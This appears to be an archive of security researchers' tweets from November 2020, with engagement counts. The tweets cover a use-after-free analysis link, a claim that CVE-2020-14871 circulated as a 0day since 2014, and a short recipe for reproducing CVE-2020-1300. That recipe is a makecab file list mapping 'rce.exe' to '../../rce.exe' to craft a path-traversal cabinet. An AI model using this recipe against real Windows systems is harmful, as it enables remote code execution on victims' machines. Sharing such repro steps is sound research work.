 * https://symeonp.github.io/2020/12/08/phonebook-uaf-analysis.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>67</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1324022373255909377 _at 2020-11-04 16:15:07_**
<blockquote>
CVE-2020-14871 had been exploited and distributed in the wild to numerous groups since at least October 6th 2014. That's 6 years that this vulnerability was available as 0day to multiple non-exclusive parties, VBI leak in HT emails shows it's the same bug. https://t.co/Prh3tm3DHN https://t.co/Efv6jtPFOB
</blockquote>

* https://wikileaks.org/hackingteam/emails/emailid/45441

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+El_eunGWMAEjthh.jpg" alt="http://pbs.twimg.com/media/El_eunGWMAEjthh.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+El_evvQWMAI8D0s.jpg" alt="http://pbs.twimg.com/media/El_evvQWMAI8D0s.jpg"></td>
<td><img src="pictures/http+++pbs.twimg.com+media+El_e8ZqWMAAuls_.png" alt="http://pbs.twimg.com/media/El_e8ZqWMAAuls_.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>69</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at 2020-11-03 18:30:35_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>


<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---